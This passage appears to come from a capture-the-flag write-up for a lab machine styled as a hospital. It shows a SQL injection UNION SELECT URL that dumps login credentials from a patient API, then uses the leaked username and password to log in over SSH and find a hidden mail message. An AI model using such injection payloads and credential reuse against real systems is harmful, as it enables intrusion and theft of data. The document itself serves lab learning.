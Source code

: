 
## Bingo!

	http://10.13.37.4/api/viewPatient?patientID=' UNION SELECT username, password, type, '_' FROM unix_login--&password=mTvkHrQdaPHLp477

	username: ecoast
	password: bc60f3cff8197896
	type:     postfix_mailserver



# ecoast@10.13.37.4, Port 22


## Login

Connect over ssh using the credentials we found

	ssh ecoast@10.13.37.4
	password: bc60f3cff8197896

From the MOTD and the hints from the unix_login table we can assume there is something related to mail on this box.

Exploring common mail directories leads us to a secret message in a hidden folder.


## Secretmail

	Date: Thu, 2 Jun 2016 10:52:24 -0400
	From: Dan <dan@ecoasthospital.com>
	To: "=?utf-8?Q?augeocacher=40gmail.com?=" <secret@evilperson.com>
	Subject: Import Email
	X-Mailer: Airmail (348)
	MIME-Version: 1.0
	Content-Type: multipart/mixed; boundary="57504829_1bd8808c_f83"

	--57504829_1bd8808c_f83
	Content-Type: multipart/alternative; boundary="57504829_4a0e6c7f_f83"

	--57504829_4a0e6c7f_f83
	Content-Type: text/plain; charset="utf-8"
	Content-Transfer-Encoding: 7bit
	Content-Disposition: inline

	Make sure nobody sees this

	--57504829_4a0e6c7f_f83
	Content-Type: text/html; charset="utf-8"
	Content-Transfer-Encoding: quoted-printable
	Content-Disposition: inline

	<html><head><style>body=7Bfont-family:Helvetica,Arial;font-size:13px=7D</=
	style></head><body style=3D=22word-wrap: break-word; -webkit-nbsp-mode: s=
	pace; -webkit-line-break: after-white-space;=22><div id=3D=22bloop=5Fcust=
	omfont=22 style=3D=22font-family:Helvetica,Arial;font-size:13px; color: r=
	gba(0,0,0,1.0); margin: 0px; line-height: auto;=22>Make sure nobody sees =
	this</div><br><div id=3D=22bloop=5Fsign=5F1464879021715235840=22 class=3D=
	=22bloop=5Fsign=22></div></body></html>
	--57504829_4a0e6c7f_f83--
